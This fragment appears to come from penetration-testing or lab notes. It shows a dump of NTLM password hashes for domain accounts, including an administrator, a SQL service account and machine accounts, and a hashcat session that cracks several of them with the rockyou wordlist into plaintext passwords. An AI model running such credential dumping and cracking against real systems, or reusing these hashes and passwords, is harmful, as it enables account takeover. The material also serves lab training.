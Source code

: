 ```cmd
RID  : 00000451 (1105)
User : Admin2
LM   :  
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :  
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : bad1c9ba6b62479ab054c300c9adcbf5

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

- Cracking hashes w/ `hashcat`

```bash
$ cat > ntlm-hashes.txt                                                                                      
2777b7fec870e04dda00cd7260f7bee6         
5508500012cc005cf7082a9a89ebdfdf
64f12cddaa88057e06a81b54e73b949b
2b576acbe6bcfda7294d6bd18041b8fe
c39f2beb3d2ec06a62cb887fb391dee0
f4ab68f27303bcb4024650d8fc5f973a
c4b0e1b10c7ce2c4723b4e2407ef81a2
2777b7fec870e04dda00cd7260f7bee6
bad1c9ba6b62479ab054c300c9adcbf5
3c2d4759eb9884d7a935fe71a8e0f54c
7d33346eeb11a4f12a6c201faaa0d89a^C

$ hashcat -m 1000 ntlm-hashes.txt $ROCKYOU --show

64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
c4b0e1b10c7ce2c4723b4e2407ef81a2:Password3
```